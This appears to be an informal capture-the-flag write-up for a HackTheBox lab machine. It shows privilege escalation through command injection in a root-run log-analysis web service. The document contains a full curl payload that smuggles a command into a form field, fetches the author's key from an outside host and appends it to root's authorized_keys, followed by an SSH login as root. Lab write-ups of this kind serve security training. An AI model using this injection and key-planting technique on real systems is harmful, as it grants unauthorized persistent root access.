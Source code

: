 i run this command
![[Pasted image 20250311225313.png]]
now i am able to access this website:
![[Pasted image 20250311225422.png]]

As you can see this is running root from screen shot

i find a system run command vulnerability that i am able to execute commands via sending curl command like ls

i tried for hours to get reverse shell, no luck, came close but couldnt find 0

i then with peeking around i found a .ssh fir in root/

im gonna upload my ssh key to it so i can just shell in, fuckers lol

so i start with generating new key and then serving my python3 server at port 80:
![[Pasted image 20250311230125.png]]
then just run a curl command:
```
curl 'http://127.0.0.1:8000' \
  -H 'Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==' \
  --data-raw 'analyze_log=&log_file=;curl+http://10.10.14.3/ed25519_gen.pub+>>/root/.ssh/authorized_keys;#&'
```

![[Pasted image 20250311230336.png]]

means the target had successfully grabbed this key and now i will just straight up run this command to ssh into machine:
make sure your on the same dir as the python server... 
```
ssh -i ed25519_gen root@sea.htb
```

lol my idiot ass got stuck then realized. 

and grab root.txt :D

done!
